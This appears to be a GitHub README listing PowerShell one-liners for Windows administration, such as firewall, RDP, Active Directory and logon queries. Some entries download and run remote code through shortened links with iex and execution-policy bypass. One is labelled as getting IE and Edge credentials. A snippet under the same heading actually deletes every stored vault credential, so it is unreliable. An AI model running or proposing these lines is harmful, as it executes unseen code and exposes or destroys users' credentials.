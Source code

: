 # Powershell-SysAdmin
SysAdmin stuff using the all powerful powershell. Commands that are hopefully helpful when administering a Windows environment.

## One-Liners

#### "Pong Command" - Listen for Pings. Uses WinDump.exe
```.\WinDump.exe -i 3 icmp and icmp[icmp-echoreply]=icmp-echo```

#### Enable File and Printer Sharing
```Set-NetFirewallRule -DisplayGroup "File And Printer Sharing" -Enabled True```

#### Enable ICMP
```netsh advfirewall firewall add rule name="Allow incoming ping requests IPv4" dir=in action=allow protocol=icmpv4 ```

#### Remote Manage
##### RDP
```reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f```

##### NLA
```Set-ItemProperty ‘HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp\‘ -Name “UserAuthentication” -Value 1```

##### Firewall Rule
```Enable-NetFirewallRule -DisplayGroup “Remote Desktop”```

#### Bloatware Remover
```iex ((New-Object System.Net.WebClient).DownloadString('https://git.io/debloat'))```

#### Get creds from IE and Edge
```powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/2K75g15’)"```
```
[void][Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime] $vault = New-Object Windows.Security.Credentials.PasswordVault $vault.RetrieveAll() | ForEach {$vault.Remove($_)}
```

#### Count Mailboxes based on office or chosen property

```Get-Mailbox | Group-Object -Property:Office | Select-Object name,count```

#### Get all PC Names according to pattern (requires activedirectory module)
``` Get-ADComputer -Filter "Name -like 'PC-*'" | Select-String -Pattern PC-\d+```

##### Get all computer names
``` Get-ADComputer -Filter * | Select-Object -ExpandProperty Name ```

#### Get current logged on user
``` query user /server:$SERVER```

#### Get logged in users for each computer
```
$COMPUTER_LIST = Get-ADComputer -Filter * | Select-Object -ExpandProperty Name

foreach ($COMPUTER in $COMPUTER_LIST) {
echo [$COMPUTER]
query user /server:$COMPUTER
echo `n
}
```

#### Get LastLogonDate/LastLogon for each computer
```
Get-ADComputer -Filter * -Properties * | Sort LastLogon | Select Name, LastLogonDate,@{Name='LastLogon';Expression={[DateTime]::FromFileTime($_.LastLogon)}}
```

### Get All Disabled Users (Excluding OU)
```Search-ADAccount -AccountDisabled -UsersOnly | Where {$_.DistinguishedName -notlike "*OU=Disabled Users,OU=USERS,DC=EXAMPLE,DC=COM"}```

#### Get LastLogon for User
```Get-ADUser -Identity “username” -Properties “LastLogonDate”```

#### Enable Hyper-V
```Enable-WindowsOptionalFeature -Online -FeatureName Microsoft-Hyper-V -All```

#### Toggle SMBv1
```Set-SmbServerConfiguration -EnableSMB1Protocol $false -Force```

#### Enable script execution 
```powershell.exe Set-ExecutionPolicy Bypass -Force```

#### Get REG key of any installed program
```
$keys = dir HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall | where { $_.GetValueNames() -contains 'DisplayName' }
$keys += dir HKLM:\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Uninstall | where { $_.GetValueNames() -contains 'DisplayName' }
 
$k = $keys | where { $_.GetValue('DisplayName') -eq 'DISPLAYNAMEHERE' }
```

## Windows Defender
[Windows Defender is enough, if you harden it](https://gist.github.com/superswan/1d6ed59e75273f90a481428964be3ae5)
